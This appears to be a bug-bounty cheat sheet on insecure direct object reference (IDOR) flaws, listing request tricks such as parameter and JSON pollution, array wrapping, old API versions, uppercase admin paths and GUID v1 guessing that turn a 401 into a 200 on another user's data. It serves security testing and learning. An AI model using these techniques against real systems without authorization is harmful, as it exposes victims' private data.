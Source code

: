 +++
title = 'IDOR'
+++

Basically try to screw with evertything.

## Burp filter

`(?i)\b\w*id\b(?!\w)\s*=\s*("[^"]*"|'[^']*'|[^&\s}]*)`

## Add parameters into the endpoints
```
GET /api_v1/messages --> 401 
GET /api_v1/messages?user_id=victim_uuid --> 200
```

## HTTP Parameter pollution
```
GET /api_v1/messages?user_id=VICTIM_ID --> 401 Unauthorized
GET /api_v1/messages?user_id=ATTACKER_ID&user_id=VICTIM_ID --> 200 OK
GET /api_v1/messages?user_id=YOUR_USER_ID[]&user_id=ANOTHER_USERS_ID[]
```

## JSON Parameter Pollution:
```
POST /api/get_profile
Content-Type: application/json
{“user_id”:<legit_id>,”user_id”:<victim’s_id>}
```

## Add .json to the endpoint, if it is built in **Ruby**!
```
/user_data/2341 --> 401 Unauthorized
/user_data/2341.json --> 200 OK
```

## Test on outdated API Versions
```
/v3/users_data/1234 --> 403 Forbidden
/v1/users_data/1234 --> 200 OK
```

## Wrap the ID with an array.
```
{“id”:111} --> 401 Unauthriozied
{“id”:[111]} --> 200 OK
```

## Wrap the ID with a JSON object:
``` 
{“id”:111} --> 401 Unauthriozied

{“id”:{“id”:111}} --> 200 OK
```

## Missing Function Level Access Control

```
GET /admin/profile -> 401
GET /ADMIN/profile -> 200
```

- Try to send a wildcard(*) instead of an ID.
- If it is a number id, be sure to test through a large amount of numbers, instead of just guessing
- If endpoint has a name like /api/users/myinfo, check for /api/admin/myinfo
- Replace request method with GET/POST/PUT/DELETE/PATCH
- Check if Referer header is used to validate requests
- Swap GUID with numeric ID or email
- Try obvious GUIDs such as 00000-0000-0000-00000 or 11111-11...


## GUID

GUID v1 can be easy exploitable

- https://github.com/intruder-io/guidtool
- https://github.com/felipecaon/uuidv1gen
